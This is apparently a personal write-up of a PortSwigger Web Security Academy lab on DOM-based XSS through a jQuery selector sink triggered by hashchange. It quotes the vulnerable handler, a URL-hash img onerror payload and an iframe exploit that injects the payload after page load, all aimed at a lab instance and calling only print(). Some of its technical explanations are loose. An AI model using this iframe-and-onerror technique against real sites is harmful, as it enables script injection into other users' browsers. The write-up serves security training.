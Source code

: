 # Lab: DOM XSS in jQuery selector sink using a hashchange event

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

### Write up

- In this lab, there is a vulnerable jquery code that gets triggered once the hash is inputted.

```javascript
 $(window).on('hashchange', function(){
                            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                            if (post) post.get(0).scrollIntoView();
                        });
```

-  when we input something after the hash in the url, it gets stored and executed through the jquery. 

```URL
https://0a17002c0414d0c385ab368400cb0027.web-security-academy.net/#<img src=1 onerror=print()>
```

- That  means like above we can execute a javascript code after the hash, the above code when executes throws an error as the `src` tag doesn't take numerics, and we take the advantage of it by running `print()` on error. which will lead to printing the page.

- But this is not enough since it's a one time event and it doesn't work  in new tabs, so first we got to execute and load the webpage first and only then execute the javascript payload.

- For this, we are given an exploit server where we will craft an exploit/payload for it.

- the exploit we created is :

```html
`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
```

- Then we checked, and as it was working as intended, we sent it to the victim to solve the lab.